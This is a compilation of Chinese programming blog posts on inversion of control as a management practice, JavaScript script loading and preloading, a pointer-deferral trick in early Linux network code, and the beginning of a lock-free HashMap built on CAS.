附录二：2009年Cox回复Torvalds的[邮件](https://lkml.org/lkml/2009/7/28/375)，事情起因是Cox的一个tty patch导致[kdesu(KDE project’s su utility)](https://lkml.org/lkml/2009/7/11/125)程序无法工作，该问题争论长达两个星期，此后Alan离开了Linux项目投奔Intel。

# IOC/DIP其实是一种管理思想

#####  [2013年07月05日 ](https://coolshell.cn/articles/9949.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [66 条评论](https://coolshell.cn/articles/9949.html#comments) 65,222 人阅读

关于IoC的的概念提出来已经很多年了，其被用于一种面象对像的设计。我在这里再简单的回顾一下这个概念。我先谈技术，再说管理。

话说，我们有一个开关要控制一个灯的开和关这两个动作，最常见也是最没有技术含量的实现会是这个样子：


然后，有一天，我们发现需要对灯泡扩展一下，于是我们做了个抽象类：


但是，如果有一天，我们发现这个开关可能还要控制别的不单单是灯泡的东西，我们就发现这个开关耦合了灯泡这种类别，非常不利于我们的扩展，于是反转控制出现了。

就像现实世界一样，造开关的工厂根本不关心要控制的东西是什么，它只做一个开关应该做好的事，就是把电接通，把电断开（不管是手动的，还是声控的，还是光控，还是遥控的），而我们的造各种各样的灯泡（不管是日关灯，白炽灯）的工厂也不关心你用什么样的开关，反正我只管把灯的电源接口给做出来，然后，开关厂和电灯厂依赖于一个标准的通电和断电的接口。于是产生了IoC控制反转，如下图：


**所谓控制反转的意思是，开关从以前的设备的专用开关，转变到了控制电源的开关，而以前的设备要反过来依赖于开关厂声明的电源连接接口。只要符合开关厂定义的电源连接的接口，这个开关可以控制所有符合这个电源连接接口的设备**。**也就是说，开关从依赖设备这种情况，变成了，设备反过来依赖于开关所定义的接口**。

只要你看过我的那篇《[面向对象设计其实和面象对象一点关系也没有](https://coolshell.cn/articles/8961.html)》，你就知道这样的例子在生活中太多见了。比如说：

1）在交易的过程中，卖家向买家卖东西，一手交钱一手交货，所以，基本上来说卖家和买家必需强耦合（必需见面）。这个时候，银行出来做担保，买家把钱先垫到银行，银行让卖家发货，买家验货后，银行再把钱打给卖家。这就是反转控制。买卖双方把对对方的直接控制，反转到了让对方来依赖一个标准的交易模型的接口。股票交易也是一样的，证交所就是买卖双方的标准交易模型接口。

2）上面这个例子，可能还不明显，再举一个例子。海尔公司作为一个电器制商需要把自己的商品分销到全国各地，但是发现，不同的分销渠道有不同的玩法，于是派出了各种销售代表玩不同的玩法，随着渠道越来越多，发现，每增加一个渠道就要新增一批人和一个新的流程，严重耦合并依赖各渠道商的玩法。实在受不了了，于是制定业务标准，开发分销信息化系统，只有符合这个标准的渠道商才能成为海尔的分销商。让各个渠道商反过来依赖自己标准。反转了控制，倒置了依赖。

**可见，控制反转和依赖倒置不单单的一种设计模式，反而更是一种管理模式。**

在大公司中，有很多很多的团队，这些团队开发的软件有很多依赖，跨团队合作是一件挺麻烦的事情，下面是一些比较真实的示例：

1）一个网页会有很多频道，于是，我们的前端工程师进入到各个页面为各种频道开发他们的页面，随着频道越来越多，前端开发工程师的人数也越来越多，每增加一个频道，就要增加一个为这个频道服务的前端团队，于是，人数越来越多，干成了劳动密集型。为什么不反转控制，倒置依赖呢？前端的同学完全可以开发出各种页面的标准组件，布局，模板，以前与后端交互框架，然后，让后端的同学反过来依赖于前端的标准，使用前端的框架，前端的布局，模板，和组件，以向前端接入后端的模块。

2）一个平台需要接入各种各样的业务系统，这些垂直业务系统都有自己的账号体系，于是这个平台为了要兼这些垂直系统的账号体系以做到权限控制，需要做各个系统和自己系统中的账号映射，并为账号和分配出来的资源设置各垂直系统的标识，还要在自己的代码中要写很多很多的依赖于各种账号体系的代码。其实，一个依赖倒置和反转控制就很简单。开发一个权限体系标准，让接入方的账号系统反过来依赖并控制这个标准的权限系统，从而做出一个干净的系统。

3）还有一个云平台中的管理模式，一些底层服务的开发团队只管开发底层的技术，然后什么也不管了，就交给上层的开发人员，在底层团队的开发出来的产品上面开发各种管理这个底层资源的东西，比如：生产底层资源的业务，底层资源的控制台，底层资源的监控系统。这个让底层团队只干纯技术，不干与底层技术无关的东西，看似很科学，其实是做错了。因为，上层为各个云资源控制生产，开发控制台和监控的团队，随着接入的资源的越来越多，完全干不过来了，苦逼得一塌糊涂，因为底层的资源千差百怪，每接一个就要开发一堆这个产品的代码。这个时候依赖倒置和反转控制又可以解决问题了。很简单，上层为各个云资源控制生产，开发控制台，和监控的团队应该制定一个标准，让底层的IaaS云资源开发团队反过来依赖这个标准，统一接入方式，如果开发的云资源不符我的生产控制模型，没有控制台，不把监控数据喂入我的监控系统，对不起，请不要接入我这个PaaS平台。

4）一个集中式的处理电子商务中的订单的流程。各个垂直业务线都需要通过这个平台来处理自己的交易业务，但是垂直业务线上的个性化需求太多。于是，这个技术平台开始出现了黑魔法——“为了害怕改变数据库表结构，不得不在数据库中预留一些字段，里面存把业务方的个性化字段存成如JSON这样的东西”，并为之自豪认为可以快速解决业务问题（WTF）。然而，恶梦并没就此结束，管理这个技术平台的小组开始发现，对来自各个业务方的需求应接不暇，各种变态需求严重干扰系统，各种技术决定越来越不好做，导致需求排期排不过来。于是，不单单得到了各个业务方的各种抱怨，最可怕的是还有高层老大们压过来的Deadline，加班加点，苦逼之极，最后业务方自己要去一个自己的平台。为什么不用依赖倒置和反转控制的思想呢？开发一个插件模型、工作流引擎和Pub/Sub系统，让业务方的个性化需求可以以插件的方式插入我的订单流程中，业务方自的数据存在自己的库中，业务逻辑也不要侵入我的系统，并可以使用工作流引擎或Pub/Sub的协义标准来自己定义工作流的各个步骤（甚至把工作流引擎的各个步骤的Decider交给各个业务方自行处理）。让各个业务方来依赖于我的标准插件和工作流接口，反转迭控制，让他们来控制我的系统，依赖倒置，让他们来依赖我的标准。（这个团队想过把自己的系统内部开源出去让别的团队也进来参与，可以是可以，但一定要用Linux/Git这种方式，允许出现多个分支，多个发行版。但多个版本又造成了多个业务平台，这会上上层垂直业务不知所措）

5）看过《[SteveY对Amazon和Google平台的吐槽](https://coolshell.cn/articles/5701.html)》的人都知道，Amazon内部系统的SOA架构（这个SOA架构离IBM定义的那个非常变态的SOA还有一定距离），但是这基本上都是依赖倒置和控制反转的思路了—— **与其让我来帮你实现你的业务逻辑，不如把我的业务逻辑开放成服务的方式让你来控制**。

6）再说一个我在Amazon经历的例子。有一个项目是在给Amazon的各个商区（Marketplace）做国际出口的业务，我们先把Media类的产品（书，DVD之类的）做国际出口开放，项目不难，就是让商家同意一个法律协议（上传自己的签名），然后后台小改一下。美国的，欧洲的做的都没有问题，物流团队在出口报关单上打的都是Amazon仓库的地址和商家的签名（本来这就是错的，打的应该是商家的地址和商家的签名），但是到了日本，就出了问题，因为日本海关即要日文信息，也要商家的英文名和英文地址，而我们的系统里面只有商家的日文信息。本来，这是一个挺简单的事——数据库里加两个字段，在那个同意条款的网页上收集一下商家的英文名和地址，然后把这些信息传给后面的物流团队。物流团队一看这个，发现搞不了，因为他还要传给仓库，N多的地方都要加这两个字段，还要写下各种if (site == JP)这样的判断。物流团队不蛮干，重新设计自己的系统。做一个Document Template的东西，这个就是那个那个要贴在物流盒子上的单子。再也不让各个业务团队把那些信息传过来，而是把这个Document Template的东西传给上面的业务方，他们想怎么写就怎么写， 写完后，把这个东西传回来。于是，大家依赖了一个标准的协议，而不是一其字段。（当然，这个改动过多，为此改了半年多，不过非常值）

所以说啊，在跨团队的工作中，

- 如果依赖和控制的东西过多了，就需要制定标准，倒置依赖，反转控制。

- 控制欲望最好不要太强，不要想着能干所有的事情，要学会控制反转和依赖倒置原则。否则只会引火烧身。

- 反转控制和依赖倒置是一种智慧。

（全文完）

# JAVASCRIPT 装载和执行

#####  [2013年06月05日 ](https://coolshell.cn/articles/9749.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [104 条评论](https://coolshell.cn/articles/9749.html#comments) 99,429 人阅读

一两个月前在淘宝内网里看到一个优化Javascript代码的竞赛，发现有不少的人对Javascript的执行和装载的基础并不懂，所以，从那天起我就想写一篇文章，但一直耽搁了。自上篇《[浏览器渲染原理简介](https://coolshell.cn/articles/9666.html)》，正好也可以承前启后。

首先，我想说一下Javascript的装载和执行。通常来说，浏览器对于Javascript的运行有两大特性：**1）载入后马上执行，2）执行时会阻塞页面后续的内容（包括页面的渲染、其它资源的下载）**。于是，如果有多个js文件被引入，那么对于浏览器来说，这些js文件被被串行地载入，并依次执行。

因为javascript可能会来操作HTML文档的DOM树，所以，浏览器一般都不会像并行下载css文件并行下载js文件，因为这是js文件的特殊性造成的。所以，如果你的javascript想操作后面的DOM元素，基本上来说，浏览器都会报错说对象找不到。因为Javascript执行时，后面的HTML被阻塞住了，DOM树时还没有后面的DOM结点。所以程序也就报错了。

目录


[传统的方式](https://coolshell.cn/articles/9749.html#传统的方式)[document.write方式](https://coolshell.cn/articles/9749.html#documentwrite方式)[script的defer和async属性](https://coolshell.cn/articles/9749.html#script的defer和async属性)[动态创建DOM方式](https://coolshell.cn/articles/9749.html#动态创建DOM方式)[按需异步载入js](https://coolshell.cn/articles/9749.html#按需异步载入js)[更多](https://coolshell.cn/articles/9749.html#更多)

#### 传统的方式

所以，当你写在代码中写下如下的代码：

```
<script type="text/javascript"
        src="https://coolshell.cn/asyncjs/alert.js"></script>
```


基本上来说，head里的 <script>标签会阻塞后续资源的载入以及整个页面的生成。我专门做了一个示例你可以看看：**[示例一](https://coolshell.cn/asyncjs/async_test01.html)**。 注意：我的alert.js中只有一句话：alert(“hello world”) ，这更容易让你看到javascript是怎么阻塞后面的东西的。

所以，你知道为什么有很多网站把javascript放在网页的最后面了，要么就是动用了window.onload或是docmuemt ready之类的事件。

另外，因为绝大多数的Javascript代码并不需要等页面，所以，我们异步载入的功能。那么我们怎么异步载入呢？

#### document.write方式

于是，你可能以为document.write()这种方式能够解决不阻塞的方式。你当然会觉得，document.write了的<script>标签后就可以执行后面的东西去了，这没错。对于在同一个script标签里的Javascript的代码来说，是这样的，但是对于整个页面来说，这个还是会阻塞。 下面是一段测试代码：

```
<script type="text/javascript" language="javascript">
    function loadjs(script_filename) {
        document.write('<' + 'script language="javascript" type="text/javascript"');
        document.write(' src="' + script_filename + '">');
        document.write('<'+'/script'+'>');
        alert("loadjs() exit...");
    }

    var script = 'https://coolshell.cn/asyncjs/alert.js';

    loadjs(script);
    alert("loadjs() finished!");
</script>

<script type="text/javascript" language="javascript">
   alert("another block");
</script>
```

你觉得alert的顺序是什么？你可以在不同的浏览器里试一试。这里的想关的测试页面：**[示例二](https://coolshell.cn/asyncjs/async_test02.html)**。

#### script的defer和async属性

IE自从IE6就支持defer标签，如：

```
<script defer type="text/javascript" src="./alert.js" >
</script>
```

对于IE来说，这个标签会让IE并行下载js文件，并且把其执行hold到了整个DOM装载完毕（DOMContentLoaded），多个defer的<script>在执行时也会按照其出现的顺序来运行。最重要的是<script>被加上defer后，其不会阻塞后续DOM的的渲染。但是因为这个defer只是IE专用，所以一般用得比较少。

而我们标准的的HTML5也加入了一个异步载入javascript的属性：async，无论你对它赋什么样的值，只要它出现，它就开始异步加载js文件。但是， async的异步加载会有一个比较严重的问题，那就是它忠实地践行着“载入后马上执行”这条军规，所以，虽然它并不阻塞页面的渲染，但是你也无法控制他执行的次序和时机。你可以[看看这个示例去感受一下](https://coolshell.cn/asyncjs/async_test01.async.html)。

支持 async标签的浏览器是：Firefox3.6+，Chrome 8.0+，Safari 5.0+，IE 10+，Opera还不支持（[来自这里](http://caniuse.com/#feat=script-async)）所以这个方法也不是太好。因为并不是所有的浏览器你都能行。

#### 动态创建DOM方式

这种方式可能是用得最多的了。

```
function loadjs(script_filename) {
    var script = document.createElement('script');
    script.setAttribute('type', 'text/javascript');
    script.setAttribute('src', script_filename);
    script.setAttribute('id', 'coolshell_script_id');

    script_id = document.getElementById('coolshell_script_id');
    if(script_id){
        document.getElementsByTagName('head')[0].removeChild(script_id);
    }
    document.getElementsByTagName('head')[0].appendChild(script);
}

var script = 'https://coolshell.cn/asyncjs/alert.js';
loadjs(script);
```

这个方式几乎成了标准的异步载入js文件的方式，这个方式的演示请参看：**[示例三](https://coolshell.cn/asyncjs/async_test03.html)**。这方式还被玩出了JSONP的东东，也就是我可以为script的src指定某个后台的脚本（如PHP），而这个PHP返回一个javascript函数，其参数是一个json的字符串，返回来调用我们的预先定义好的javascript的函数。你可以看一下这个示例：[t.js](https://coolshell.cn/t.js) （这个示例是我之前在微博征集的[一个异步ajax调用的小例子](https://coolshell.cn/t.html)）**
**

#### 按需异步载入js

上面那个DOM方式的例子解决了异步载入Javascript的问题，但是没有解决我们想让他按我们指定的时机运行的问题。所以，我们只需要把上面那个DOM方式绑到某个事件上来就可以了。

比如：

**绑在window.load事件上**——**[示例四](https://coolshell.cn/asyncjs/async_test04.html)** 

你一定要比较一下示例四和示例三在执行上有什么不同，我在这两个示例中都专门用了个代码高亮的javascript，看看那个代码高亮的的脚本的执行和我的alert.js的执行的情况，你就知道不同了）

```
window.load = loadjs("https://coolshell.cn/asyncjs/alert.js")
```

**绑在特定的事件上**——**[示例五](https://coolshell.cn/asyncjs/async_test05.html)**

<p style="cursor: pointer" onclick="LoadJS()">Click to load alert.js </p>

这个示例很简单了。当你点击某个DOM元素，才会真正载入我们的alert.js。

#### 更多

但是，绑定在某个特定事件上这个事似乎又过了一点，因为只有在点击的时候才会去真正的下载js，这又会太慢了了。好了，到这里，要抛出我们的终极问题——**我们想要异步地把js文件下载到用户的本地，但是不执行，仅当在我们想要执行的时候去执行**。

要是我们有下面这样的方式就好了：

```
var script = document.createElement("script");
script.noexecute = true;
script.src = "alert.js";
document.body.appendChild(script);

//后面我们可以这么干
script.execute();
```

可惜的是，这只是一个美丽的梦想，今天我们的Javascript还比较原始，这个“JS梦”还没有实现呢。

所以，我们的程序员只能使用hack的方式来搞。

有的程序员使用了非标准的script的type来cache javascript。如：

<script type=cache/script src="./alert.js"></script>

因为”cache/script”，这个东西根本就不能被浏览器解析，所以浏览器也就不能把alert.js当javascript去执行，但是他又要去下载js文件，所以就可以搞定了。可惜的是，webkit严格符从了HTML的标准——对于这种不认识的东西，直接删除，什么也不干。于是，我们的梦又破了。

所以，我们需要再hack一下，就像N多年前玩preload图片那样，我们可以动用object标签（也可以动用iframe标签），于是我们有下面这样的代码：

```
    function cachejs(script_filename){
        var cache = document.createElement('object');
        cache.data = script_filename;
        cache.id = "coolshell_script_cache_id";
        cache.width = 0;
        cache.height = 0;
        document.body.appendChild(cache);
    }
```

然后，我们在的最后调用一下这个函数。请参看一下相关的示例：**[示例六](https://coolshell.cn/asyncjs/async_test06.html)**

在Chrome下按 Ctrl+Shit+I，切换到network页，你就可以看到下载了alert.js但是没有执行，然后我们再用示例五的方式，因为浏览器端有缓存了，不会再从服务器上下载alert.js了。所以，就能保证执行速度了。

关于这种preload这种东西你应该不会陌生了。你还可以使用Ajax的方式，如：

```
var xhr = new XMLHttpRequest();
xhr.open('GET', 'new.js');
xhr.send('');
```

到这里我就不再多说了，也不给示例了，大家可以自己试试去。

最后再提两个js，一个是[ControlJS](http://stevesouders.com/controljs/)，一个叫[HeadJS](http://headjs.com/)，专门用来做异步load javascript文件的。

好了，这是所有的内容了，希望大家看过后能对Javascript的载入和执行，以及相关的技术有个了解。**同时，也希望各前端高手不吝赐教！**

（全文完）

# ALAN COX：单向链表中PREV指针的妙用

#####  [2013年06月30日 ](https://coolshell.cn/articles/9859.html) [Leo](https://coolshell.cn/articles/author/full_of_bull) 评论 [56 条评论](https://coolshell.cn/articles/9859.html#comments) 38,149 人阅读


Alan Cox


**（感谢网友** [**@我的上铺叫路遥**](http://weibo.com/fullofbull) **投稿）**

之前发过一篇[二级指针操作单向链表](https://coolshell.cn/articles/8990.html)的例子，显示了C语言指针的灵活性，这次再探讨一个指针操作链表的例子，而且是一种完全不同的用法。

这个例子是linux-1.2.13网络协议栈里的，关于链表遍历&数据拷贝的一处实现。源文件是/net/inet/dev.c，你可以从[kernel.org](https://www.kernel.org/pub/linux/kernel/v1.2/)官网上下载。

从最早的0.96c版本开始，linux网络部分一直采取TCP/IP协议族实现，这是最为广泛应用的网络协议，整个架构就是经典的OSI七层模型的描述，其中dev.c是属于链路层实现。从功能上看，其位于网络设备驱动程序和网络层协议实现模块之间，作为二者之间的数据包传输通道，一种接口模块而存在——对驱动层的接口函数netif_rx, 以及对网络层的接口函数net_bh。前者提供给驱动模块的中断例程调用，用于链路数据帧的封装；后者作为驱动中断例程**底半部(buttom half)**，用于对数据帧的解析处理并向上层传送。

为了便于理解，这里补充一下网络通信原理和linux驱动中断机制的背景知识。从最底层的物理层说起，当主机和路由器相互之间进行通信的时候，在物理介质上（同轴、光纤等）以电平信号进行传输。主机或路由器的**硬件接口（网卡）**负责收发这些信号，当信号发送到接口，再由内置的**调制解调器(modem)**将数字信号转换成二进制码，这样才能驻留在主机的硬件缓存中。这时接口（网卡）设备驱动程序将通过**硬中断**来获取硬件缓存中的数据，驱动程序是操作系统中负责直接同硬件设备打交道的模块，硬中断的触发是初始化时通过设置控制寄存器实现的，用于通知驱动程序硬件缓存中有新的数据到来。linux卡设备驱动就是在**中断处理例程(ISR)**中将硬件缓存数据拷贝到内核缓存中，打包成数据链路帧进行解析处理，再向上分发到各种协议层。由于ISR上下文是原子性的、中断屏蔽的，整个步骤又较为繁琐，因此全部放在ISR中处理会影响到其它中断响应实时性，于是linux有实现一种bottom half的**软中断**处理机制，将整个ISR一分为二，前半部上下文屏蔽所有中断，专门处理紧急的、实时性强的事务，如拷贝硬件缓存并打包封装，后半部上下文没有屏蔽中断（但代码不可重入），用于处理比较耗时且非紧急事务，包括数据帧的解析处理和分发。下面要讲的net_bh就属于后半部。

我们主要关心的是将链路帧分发到协议层那一段逻辑，下面摘自net_bh函数中的一段代码：


```
526 void net_bh(void *tmp)
527 {
       ...
577
578    /*
579    * We got a packet ID.  Now loop over the "known protocols"
580    * table (which is actually a linked list, but this will
581    * change soon if I get my way- FvK), and forward the packet
582    * to anyone who wants it.
583    *
584    * [FvK didn't get his way but he is right this ought to be
585    * hashed so we typically get a single hit. The speed cost
586    * here is minimal but no doubt adds up at the 4,000+ pkts/second
587    * rate we can hit flat out]
588    */
589   pt_prev = NULL;
590   for (ptype = ptype_base; ptype != NULL; ptype = ptype->next)
591   {
592    if ((ptype->type == type || ptype->type == htons(ETH_P_ALL)) && (!ptype->dev || ptype->dev==skb->dev))
593    {
594      /*
595      * We already have a match queued. Deliver
596      * to it and then remember the new match
597      */
598      if(pt_prev)
599      {
600        struct sk_buff *skb2;
601        skb2=skb_clone(skb, GFP_ATOMIC);
602        /*
603        * Kick the protocol handler. This should be fast
604        * and efficient code.
605        */
606        if(skb2)
607          pt_prev->func(skb2, skb->dev, pt_prev);
608      }
609      /* Remember the current last to do */
610      pt_prev=ptype;
611    }
612   } /* End of protocol list loop */
613   /*
614   * Is there a last item to send to ?
615   */
616   if(pt_prev)
617     pt_prev->func(skb, skb->dev, pt_prev);
618   /*
619    *  Has an unknown packet has been received ?
620    */
621   else
622     kfree_skb(skb, FREE_WRITE);
623
      ...
640 }
```

在此稍稍解说一下数据结构，skb就是内核缓存中sock数据封装，协议栈里从链路层到传输层都会用到，只不过封装格式不同，主要是对**协议首部(header)**的由下而上层层剥离（反之由上而下是层层创建），在此你只需理解为一个链路数据帧即可。这段代码的逻辑是解析skb中的协议字段，从协议类型链表（由ptype_base维护）中查询对应的协议节点进行函数指针func回调，以便将数据帧分发到相应的协议层（如ARP、IP、8022、8023等）。

第一眼看上去是不是有点奇怪？这段代码竟然用一个pt_prev指针去维护ptype链表中前一个节点，从而产生了额外的条件分支判断，咋一看是否多了很多“余”了？回顾一下那篇[二级指针操作单向链表](https://coolshell.cn/articles/8990.html)的博文，简直完全是反其道而行之的。如果把pt_prev去掉，代码可以精简为：

```
  for (ptype = ptype_base; ptype != NULL; ptype = ptype->next)
  {
    if ((ptype->type == type || ptype->type == htons(ETH_P_ALL)) && (!ptype->dev || ptype->dev==skb->dev))
    {
        /*
        * We already have a match queued. Deliver
        * to it and then remember the new match
        */
        struct sk_buff *skb2;
        skb2=skb_clone(skb, GFP_ATOMIC);
        /*
        * Kick the protocol handler. This should be fast
        * and efficient code.
        */
        if(skb2)
            pt_prev->func(skb2, skb->dev, pt_prev);
    }
} /* End of protocol list loop */

kfree_skb(skb, FREE_WRITE);
```

咋看一下“干净”了很多，不是吗？但我们要记住一点，凡是网上发布的linux内核源代码，都是都是经过众多黑客高手们重重检视并验证过的，人家这么写肯定有十分充足的理由，所以不要太过于相信自己的直觉了，让我们再好好review一下代码吧！看看这段循环里做了什么事情？特别是第592~611行。

由于从网络上拷贝过来skb是唯一的，而分发的协议对象可能是多个，所以在回调之前要做一次clone动作（注意这里是深度拷贝，相当于一次kmalloc）。分发之后还需要调用kfree_skb释放掉原始skb数据块，它的历史使命到此完成了，没有保留的必要（第622行）。**注意，这两个动作都是存在内核开销的。**

然而这里为啥要pt_prev维护一个后向节点呢？这是有深意的，它的作用就是将当前匹配协议项的回调操作延时了。举个例子，如果链表遍历中找到某个匹配项，当前循环仅仅用pt_prev去记录这个匹配项，除此之外不做任何事情，待到下一次匹配项找到时，才去做上一个匹配项pt_prev的回调操作，直到循环结束，才会去做最后的匹配项的回调（当然pt_prev==NULL表示没有一次匹配，直接释放掉），所以这是一种**拖延战术**。有什么好处呢？就是比原先节省了很多不必要的操作。那么哪些操作是不必要的呢？这里我们逆向思考一下，我们看到clone是在协议字段匹配并且pt_prev!=NULL的前提条件下执行的，而kfree是在pt_prev==NULL的前提条件下执行的。在此可以假设一下，如果ptype链表中存在N项协议与之匹配，那么这段代码只会执行N-1次clone，而没有pt_prev时将会执行N次clone和1次kfree，再如果ptype链表中有且仅有一项协议与之匹配，那么整个循环既不会执行到第601行的clone，也不会执行到第622行的kfree。

也就是说，**当整个链表至少有一项匹配的一般情况下，pt_prev存在比没有时减少了一次clone和一次kfree的开销；只有全部不匹配的最差情况下，两者都只做一次kfree动作，持平。这就是延迟策略产生的效益**。

熟悉TCP/IP协议族的开发人员应该知道**MTU（最大传输单元）**这个概念，遵循不同协议的MTU值是不同的。比如以太网帧MTU是1500个字节，802.3帧MTU是1492字节，PPP链路帧MTU是269字节，而超通道MTU理论上是65535字节。要知道在一个高速吞吐量通信网络环境下，在大块数据分片传输线路里，在内核级别代码中，减少一处系统开销意味着什么？

其实我们完全可以抛开一切网络协议相关知识，这不过是一段极其普通的单向链表操作而已，逻辑并不复杂。但是看看人家顶级黑客是怎么思考和coding的，对比一下自己写过的代码，多少次数据处理是用一个简单的for循环匆匆敷衍了事而没有进一步思考其中的粗陋和不合理之处？面对真正的编程高手这种“心计”与“城府”，你是不是有种莫名不安感？你会怀疑你真的了解怎么去使用和操作C语言中基本的链表数据结构么？如果答案是肯定的，那就开始颤抖吧（哈，别误会，其实上面这段话不过是笔者的自我告解罢了）~~~

最后，让我们感谢尊敬的[Alan Cox](https://en.wikipedia.org/wiki/Alan_Cox)大大对Linux社区卓越精细、无与伦比的贡献！（Alan是图中中部戴红帽子的那位）


**附注：**

最新的Linux-2.6.x版本中协议栈实现部分变动很大，但/net/core/dev.c的netif_receive_skb函数里仍然保留了pt_prev这种用法，目的是一样的，都是为了减少一次系统开销的优化操作。

关于Alan，他在斯旺西大学工作时，在学校服务器上安装了一个早期的linux版本，供学校使用。他修正了许多的问题，重写了网络系统中的许多部份。随后成为linux内核开发小组中的重要成员。[Alan Cox](https://en.wikipedia.org/wiki/Alan_Cox)负责维持2.2版，在2.4版上拥有自己的分支（在版本号上会冠上ac，如 2.4.13-ac1）。他的分支版本非常稳定，修正许多错误，许多厂商都使用他的版本。在他去进修工商管理硕士之前，涉入许多linux内核开发的事务，在社群中有很高的地位，有时会被视为是Linus之下的第二号领导者。

不过，今年1月28日的时候，Alan因为家庭原因宣布退出Linux项目了，下面是他Google+的声明：

> “I’m leaving the Linux world and Intel for a bit for family reasons, I’m aware that ‘family reasons’ is usually management speak for ‘I think the boss is an asshole’ but I’d like to assure everyone that while I frequently think Linus is an asshole (and therefore very good as kernel dictator) I am departing quite genuinely for family reasons and not because I’ve fallen out with Linus or Intel or anyone else. Far from it I’ve had great fun working there.”

（全文完）

# 无锁HASHMAP的原理与实现

#####  [2013年05月30日 ](https://coolshell.cn/articles/9703.html) [Onetwogoo](https://coolshell.cn/articles/author/onetwogoo) 评论 [35 条评论](https://coolshell.cn/articles/9703.html#comments) 62,641 人阅读

 **(本文由[onetwogoo](https://github.com/onetwogoo)投稿)**

在《[疫苗：Java HashMap的死循环](https://coolshell.cn/articles/9606.html)》中，我们看到，java.util.HashMap并不能直接应用于多线程环境。对于多线程环境中应用HashMap，主要有以下几种选择：

1. 使用线程安全的java.util.Hashtable作为替代。
2. 使用java.util.Collections.synchronizedMap方法，将已有的HashMap对象包装为线程安全的。
3. 使用java.util.concurrent.ConcurrentHashMap类作为替代，它具有非常好的性能。

而以上几种方法在实现的具体细节上，都或多或少地用到了互斥锁。互斥锁会造成线程阻塞，降低运行效率，并有可能产生死锁、优先级翻转等一系列问题。

CAS(Compare And Swap)是一种底层硬件提供的功能，它可以将判断并更改一个值的操作原子化。关于CAS的一些应用，《[无锁队列的实现](https://coolshell.cn/articles/8239.html)》一文中有很详细的介绍。

目录


[Java中的原子操作](https://coolshell.cn/articles/9703.html#Java中的原子操作)[无锁链表的实现](https://coolshell.cn/articles/9703.html#无锁链表的实现)[无锁HashMap的难点与突破](https://coolshell.cn/articles/9703.html#无锁HashMap的难点与突破)[实现细节](https://coolshell.cn/articles/9703.html#实现细节)[初始化下标操作](https://coolshell.cn/articles/9703.html#初始化下标操作)[插入操作](https://coolshell.cn/articles/9703.html#插入操作)[查找操作](https://coolshell.cn/articles/9703.html#查找操作)[删除操作](https://coolshell.cn/articles/9703.html#删除操作)[参考文献](https://coolshell.cn/articles/9703.html#参考文献)

#### Java中的原子操作

在java.util.concurrent.atomic包中，Java为我们提供了很多方便的原子类型，它们底层完全基于CAS操作。

例如我们希望实现一个全局公用的计数器，那么可以：

 


**private** AtomicInteger counter = new AtomicInteger(3);

**public** **void** addCounter() {

​    **for** (;;) {

​        **int** oldValue = counter.get();

​        **int** newValue = oldValue + 1;

​        **if** (counter.compareAndSet(oldValue, newValue))

​            **return**;

​    }

}


其中，compareAndSet方法会检查counter现有的值是否为oldValue，如果是，则将其设置为新值newValue，操作成功并返回true；否则操作失败并返回false。

当计算counter新值时，若其他线程将counter的值改变，compareAndSwap就会失败。此时我们只需在外面加一层循环，不断尝试这个过程，那么最终一定会成功将counter值+1。（其实AtomicInteger已经为常用的+1/-1操作定义了incrementAndGet与decrementAndGet方法，以后我们只需简单调用它即可）

除了AtomicInteger外，java.util.concurrent.atomic包还提供了AtomicReference和AtomicReferenceArray类型，它们分别代表原子性的引用和原子性的引用数组（引用的数组）。

#### 无锁链表的实现

在实现无锁HashMap之前，让我们先来看一下比较简单的无锁链表的实现方法。

以插入操作为例：

1. 首先我们需要找到待插入位置前面的节点A和后面的节点B。
2. 然后新建一个节点C，并使其next指针指向节点B。（见图1）
3. 最后使节点A的next指针指向节点C。（见图2）


但在操作中途，有可能其他线程在A与B直接也插入了一些节点（假设为D），如果我们不做任何判断，可能造成其他线程插入节点的丢失。（见图3）我们可以利用CAS操作，在为节点A的next指针赋值时，判断其是否仍然指向B，如果节点A的next指针发生了变化则重试整个插入操作。大致代码如下：


**private** **void** listInsert(Node head, Node c) {

​    **for** (;;) {

​        Node a = findInsertionPlace(head), b = a.next.get();

​        c.next.set(b);

​        **if** (a.next.compareAndSwap(b,c))

​            **return**;

​    }

}


(Node类的next字段为AtomicReference<Node>类型，即指向Node类型的原子性引用)

无锁链表的查找操作与普通链表没有区别。而其删除操作，则需要找到待删除节点前方的节点A和后方的节点B，利用CAS操作验证并更新节点A的next指针，使其指向节点B。

#### 无锁HashMap的难点与突破

HashMap主要有**插入**、**删除**、**查找**以及**ReHash**四种基本操作。一个典型的HashMap实现，会用到一个数组，数组的每项元素为一个节点的链表。对于此链表，我们可以利用上文提到的操作方法，执行插入、删除以及查找操作，但对于ReHash操作则比较困难。


如图4，在ReHash过程中，一个典型的操作是遍历旧表中的每个节点，计算其在新表中的位置，然后将其移动至新表中。期间我们需要操纵3次指针：

1. 将A的next指针指向D
2. 将B的next指针指向C
3. 将C的next指针指向E

而这三次指针操作必须同时完成，才能保证移动操作的原子性。但我们不难看出，CAS操作每次只能保证**一个**变量的值被原子性地验证并更新，无法满足同时验证并更新三个指针的需求。

于是我们不妨换一个思路，既然移动节点的操作如此困难，我们可以使所有节点始终保持有序状态，从而避免了移动操作。在典型的HashMap实现中，数组的长度始终保持为2i，而从Hash值映射为数组下标的过程，只是简单地对数组长度执行取模运算（即仅保留Hash二进制的后i位）。当ReHash时，数组长度加倍变为2i+1，旧数组第j项链表中的每个节点，要么移动到新数组中第j项，要么移动到新数组中第j+2i项，而它们的唯一区别在于Hash值第i+1位的不同（第i+1位为0则仍为第j项，否则为第j+2i项）。


如图5，我们将所有节点按照Hash值的翻转位序（如1101->1011）由小到大排列。当数组大小为8时，2、18在一个组内；3、11、27在另一个组内。每组的开始，插入一个哨兵节点，以方便后续操作。为了使哨兵节点正确排在组的最前方，我们将正常节点Hash的最高位（翻转后变为最低位）置为1，而哨兵节点不设置这一位。

当数组扩容至16时（见图6），第二组分裂为一个只含3的组和一个含有11、27的组，但节点之间的相对顺序并未改变。这样在ReHash时，我们就不需要移动节点了。

#### 实现细节

由于扩容时数组的复制会占用大量的时间，这里我们采用了将整个数组分块，懒惰建立的方法。这样，当访问到某下标时，仅需判断此下标所在块是否已建立完毕（如果没有则建立）。

另外定义size为当前已使用的下标范围，其初始值为2，数组扩容时仅需将size加倍即可；定义count代表目前HashMap中包含的总节点个数（不算哨兵节点）。

